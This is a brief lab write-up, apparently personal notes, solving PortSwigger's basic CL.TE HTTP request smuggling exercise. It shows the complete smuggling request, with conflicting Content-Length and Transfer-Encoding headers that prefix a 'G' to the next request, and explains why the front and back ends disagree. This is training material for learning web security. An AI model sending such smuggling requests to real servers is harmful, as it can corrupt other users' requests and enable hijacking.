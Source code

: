 https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te

CL.TE vulnerability

**Objective**: Smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`

```
POST / HTTP/1.1
Host: 0af8004d04a771ff80b7b734006e004c.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

This request causes the front-end to use the CL as the primary header while the back end expects another chunck to arrive.

Used Burp repeater to send multiple requests and some of the responses said: `Unrecognized method GPOST` confirming that I managed to smuggle a request with the `G`

![[Pasted image 20250818004152.png]]
